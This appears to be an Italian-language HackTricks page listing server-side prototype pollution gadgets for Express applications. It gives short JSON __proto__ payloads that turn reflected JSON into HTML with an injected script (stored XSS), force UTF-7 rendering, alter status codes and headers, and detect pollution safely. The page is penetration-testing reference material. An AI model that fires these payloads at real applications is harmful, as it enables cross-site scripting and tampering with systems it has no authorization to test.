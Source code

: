 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Per ulteriori dettagli** [**dai un'occhiata alla ricerca originale**](https://portswigger.net/research/server-side-prototype-pollution)

### Cambia il tipo di contenuto JSON in HTML

In un'app Express che utilizza una **risposta di tipo contenuto JSON** e riflette un JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
In questi casi, l'XSS non è normalmente possibile con un tipo di contenuto JSON. Tuttavia, con la contaminazione del prototipo possiamo **confondere Express per servire una risposta HTML.** Questa vulnerabilità si basa sull'applicazione che utilizza **`res.send(obj)`** e utilizza il body parser con il tipo di contenuto application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
By **inquinando** le proprietà **`body`** e **`_body`**, è possibile causare **a Express di servire il tipo di contenuto HTML** e riflettere la proprietà `_body`, risultando in XSS memorizzato.

### Render UTF7

È possibile far sì che express **renderizzi contenuti UTF-7 con**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Tecniche di Scansione Sicure

### Spazi JSON

Il seguente PP farà sì che gli attributi all'interno di un JSON abbiano uno spazio extra che non interromperà la funzionalità:
```json
{"__proto__":{"json spaces": " "}}
```
Allora un JSON riflesso apparirà come:
```json
{"foo":  "bar"} -- Note the extra space
```
### Intestazioni Esposte

Il seguente gadget PP farà sì che il server restituisca l'intestazione HTTP: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Richiede che il **modulo CORS sia installato**

### **Metodo OPTIONS**

Con il seguente payload, è possibile **nascondere un metodo da una risposta OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Stato**

È possibile modificare il **codice di stato restituito** utilizzando il seguente payload PP:
```json
{"__proto__":{"status":510}}
```
### Errore

Quando si assegna a un prototipo con un primitivo come una stringa, produce un **operazione no-op poiché il prototipo deve essere un oggetto**. Se si tenta di assegnare un oggetto prototipo a `Object.prototype` stesso, questo **genererà un'eccezione**. Possiamo utilizzare questi due comportamenti per **verificare se la contaminazione del prototipo è avvenuta con successo**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Valore Riflesso

Quando un'applicazione include un oggetto nella sua risposta, creare un attributo con un **nome insolito insieme a `__proto__`** può essere rivelatore. In particolare, se **solo l'attributo insolito viene restituito** nella risposta, questo potrebbe indicare la vulnerabilità dell'applicazione:
```json
{"unusualName":"value","__proto__":"test"}
```
Inoltre, in scenari in cui viene utilizzata una libreria come Lodash, impostare una proprietà sia tramite inquinamento del prototipo (PP) che direttamente all'interno dell'oggetto offre un altro approccio diagnostico. Se tale proprietà è omessa dalla risposta, suggerisce che Lodash sta verificando l'esistenza della proprietà nell'oggetto target prima di unire:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

C'è un'opzione in Express che ti consente di **creare oggetti dai parametri della query string**.\
Potresti sicuramente usarla in una **catena** di bug per sfruttare una **vulnerabilità di inquinamento del prototipo**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` crea un oggetto in Node.**

## Riferimenti

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

